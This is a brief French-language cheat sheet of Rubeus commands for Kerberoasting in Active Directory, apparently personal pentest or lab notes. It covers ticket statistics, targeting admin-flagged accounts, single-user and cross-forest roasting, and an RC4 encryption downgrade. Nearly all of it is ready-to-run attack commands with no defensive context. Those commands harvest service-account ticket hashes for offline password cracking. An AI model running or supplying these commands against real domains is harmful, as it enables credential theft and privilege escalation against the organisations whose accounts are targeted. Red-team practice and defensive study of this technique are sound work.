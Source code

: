 

https://github.com/GhostPack/Rubeus




# KERBEROASTING


## Affiche les statistiques pour le kerberoasting

```powershell-session
.\Rubeus.exe kerberoast /stats
```

## Kerberoasting de users potentiellement admin

```powershell-session
.\Rubeus.exe kerberoast /ldapfilter:'admincount=1' /nowrap
```

## Kerberoasting sur un user

```powershell-session
.\Rubeus.exe kerberoast /user:testspn /nowrap
```

## Kerberoasting sur un user X-Forest

```powershell-session
.\Rubeus.exe kerberoast /domain:FREIGHTLOGISTICS.LOCAL /user:mssqlsvc /nowrap
```

## Kerberoasting et DOWNGRADE RC4 sur un user (Etype 23)(PRE WS2019)

```powershell-session
.\Rubeus.exe kerberoast /tgtdeleg /user:testspn /nowrap
```








